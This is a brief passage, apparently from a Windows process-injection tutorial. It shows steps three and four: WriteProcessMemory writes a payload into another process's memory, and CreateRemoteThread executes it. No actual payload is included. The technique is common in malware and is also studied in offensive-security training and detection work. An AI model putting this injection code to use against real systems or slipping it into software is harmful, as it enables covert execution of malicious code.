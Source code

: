 At step three, we can use `WriteProcessMemory` to write the payload to the allocated region of memory.

```cpp
WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);
```
At step four, we can use CreateRemoteThread to execute our payload from memory
```cpp
remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 
```





























